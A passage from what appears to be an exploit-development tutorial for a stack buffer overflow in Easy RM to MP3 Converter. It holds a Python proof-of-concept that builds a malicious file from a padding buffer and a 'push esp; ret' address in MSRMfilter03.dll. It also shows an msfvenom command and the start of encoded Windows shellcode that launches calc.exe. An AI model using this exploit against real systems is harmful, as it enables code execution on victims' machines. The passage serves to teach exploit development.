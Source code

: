 Updated PoC:

```term_session
import struct

pushesp = struct.pack("<I", 0x1001B058) # 0x1001b058 : "\x54\xC3" |  {PAGE_EXECUTE_READ} [MSRMfilter03.dll] ASLR: False, Rebase: False, 
SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMfilter03.dll)

buffer = "A" * 8704 + pushesp + "\xff" * 200 

f = open ("finding4.txt", "w")
f.write(buffer)
f.close()
```

Succeeding the exploitation, the additional bytes are executed:

![](/assets/img/Findings4/4.png)

# Shellcode

The last step is to generate some shellcode:

```term_session
root@kali:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESP EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of py file: 2145 bytes
buf =  b""
buf += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
```